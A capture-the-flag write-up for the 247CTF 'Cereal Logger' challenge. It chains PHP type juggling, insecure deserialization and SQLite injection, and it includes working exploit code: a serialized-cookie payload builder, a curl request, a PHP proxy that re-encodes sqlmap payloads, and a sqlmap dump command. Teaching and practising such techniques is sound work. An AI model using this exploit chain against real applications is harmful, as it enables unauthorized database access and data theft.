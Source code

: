 ```yaml
---
title: "Chaining SQLmap with a custom php proxy server | 247CTF"
date: 2024-06-16
categories: [CHALLENGES, CEREAL LOGGER]
tags: [CHALLENGES, CTF] 
---
```


Hi, in this writeup I will solve the new hard challenge `CEREAL LOGGER`, from [247ctf](https://247ctf.com/). I will also explain how I created a simple proxy server between `SQLmap` and the challenge server that can manipulate SQLmap requests.

## Challenge source code analysis
![IMG1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/24a5b14d-3451-4ac3-a4e2-5855c6ce6cfb)

1) class `insert_log` is defined and has a property `new_data` has constant value "Valid access logged!"
and has `__destruct()` methode that create a new SQLite3 database connection using a database file located at `/tmp/log.db` and finally, an SQL query is executed to insert a log message `$this->new_data` into the `log` table of the database.

2) Main Script Logic: 
  - The code check if the cookie named `247` is set for incoming HTTP requests.
  - Split the cookie value at the dot with `explode(".", $_COOKIE["247"])` and Check if the second part of the split value concatenated with a random number between 0 and 247247247 equals the string "0".
  - If the condition is met, it decodes the first part of the cookie value from base64, unserializes it, and writes the result to `/dev/null` (which essentially discards the output).

## Spotting the bugs

- The condition `explode(".", $_COOKIE["247"])[1].rand(0, 247247247) == "0"` is vulnerable to [Type juggling](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09) because it relies on PHP's type coercion, PHP uses loose comparison (==), which means it will attempt to coerce the types to make the comparison. For example, when comparing a string to a number, PHP will convert the string to a number.
- In the `__destruct()` method vulnerable to SQLi, the SQL query is constructed by directly concatenating the `new_data` property into the SQL statement, but what is `__destruct()` methode ? by asking google: 
![IMG2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3fff93f5-7be6-48c0-ad49-09670eac2244)

- Simple Testing: 
![IMG3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/ddbe1977-a921-4bfd-8c11-d2325a71a75e)

- At this point, we can identify another vulnerability: `insecure deserialization` because the script decode tha first part of the cookie before dot and then unserialize it directly using `unserialize()` function.

## Chaining of bugs 

1) Exoloiting type juggling vulnerability to bypass the if condition.

2) Build a class with same name and properties (Attributes or Variables). 

3) Injecting SQL payload in `new_data` attribute before serializing object and then encode it to base64 encoded data.

## Manuel Exploiting

We can exploit the [Type Juggling](https://www.php.net/manual/en/language.types.type-juggling.php) vulnerability by injecting data before a dot and then embedding `0e` after the dot. This allows us to bypass an if condition like `blablabla.0e`, For example, `"0e1234" == "0"` returns true because `0e1234` means `0 * 10^1234` which is zero, so whatever the random number come after e then the condition always returns true.  

In PHP, `0e1234` represents a number in scientific notation, where `0` is the coefficient and `e1234` indicates the exponent. However, because the coefficient is 0, the entire value is simply 0, regardless of the exponent, In scientific notation, the format is generally `n x 10^m`, where n is the coefficient and m is the exponent. In PHP, `0e1234` translates to `0 * 10^1234`, which is still 0.

![IMG4](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/89f5c1eb-c699-4b4c-9b36-fdd59ad3c464)

Now we can create class and try to inject SQL payload like: `0XMohomiester'); select 1 = randomblob(999999999);--`.

Note: The SQLite `randomblob()` function returns a blob containing pseudo-random bytes. The number of bytes is determined by its argument.


![IMG5](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3132b08b-bd51-4666-bc5e-08125625a523)

```php
<?php

class insert_log
{
  // SQLi payload here 
  public $new_data = "0XMohomiester'); select 1 = randomblob(999999999);--";
}
$obj = new insert_log();
// Serializing object 
$a = serialize($obj);
// Base64 encoding of serialized data and concatenate it with .0e 
$final_payload = base64_encode($a) . ".0e";
echo $final_payload;

```

Let's try it :

```shell
time curl -XGET https://a0351f3d2e04038e.247ctf.com/ -b '247=TzoxMDoiaW5zZXJ0X2xvZyI6MTp7czo4OiJuZXdfZGF0YSI7czo1MjoiMFhNb2hvbWllc3RlcicpOyBzZWxlY3QgMSA9IHJhbmRvbWJsb2IoOTk5OTk5OTk5KTstLSI7fQ==.0e'
```

![IMG6](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/645e72aa-4228-4a34-be67-ec1b684e9ac3)

as you can see that the response takes about 1.7 seconds with 502 status code, because we generate long number of bytes in `randomblob()` function, let's try if we created a only one byte: `randomblob(1)` 


![IMG7](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3e431425-c0fe-40aa-9d6e-25c16f4a7b44)

yes!, the time is is about 0.5 seconds now lets try to automate this task.



## Automated Exploitation

We can exploit this bug with sqlmap but we have a some problems here, the first is that the payloads must be serialized in objects and then encode it to clearly exploit the web application and extract flag from database.

we can create a simple local web application act as `proxy server` that manage sqlmap requests and edit on any payload to serialize it and then encode it and send the data to the challange server or instance.

![IMG8](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/e755af36-3dac-45ca-975d-3d84a5f8cd2e)


Here is a simple web application using PHP!

```php
<?php

$payload = $_GET['payload'];

class insert_log
{
    public $new_data;
    public function __construct($payload) {
        $this->new_data = $payload;
    }
}

$object = new insert_log($payload);
// serialize object and encode it.
$final_data = base64_encode(serialize($object));

$data = "$final_data" . ".0e";

$targetUrl = "https://a0351f3d2e04038e.247ctf.com/";

// Initialize cURL session
$ch = curl_init($targetUrl);

// Set cURL options
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

// Set the custom cookie
curl_setopt($ch, CURLOPT_COOKIE, "247=$data");

// Execute the cURL session and get the response
$response = curl_exec($ch);

// Close the cURL session
curl_close($ch);

// Output the response
echo $response;

```

we can deploy php server locally using: 
```shell
php -S 0.0.0.0:80
``` 
using sqlmap command: 
```shell
sqlmap -u "http://127.0.0.1:80/?payload=test" -p "payload" --dbms sqlite --technique=T --dump --level 5 --risk 3 --no-cast  --random-agent
```

Yessss! it works, sqlmap extract table names and data inside this tables: 

![IMG9](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/a3edd081-ee97-4f61-98f1-eac0a6ec8206)


![IMG10](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/6e17f82d-80ff-463e-848a-885b6d671b40)


Thanks for reading.

Follow me on [Linkedin](https://www.linkedin.com/in/0xmohomiester/)
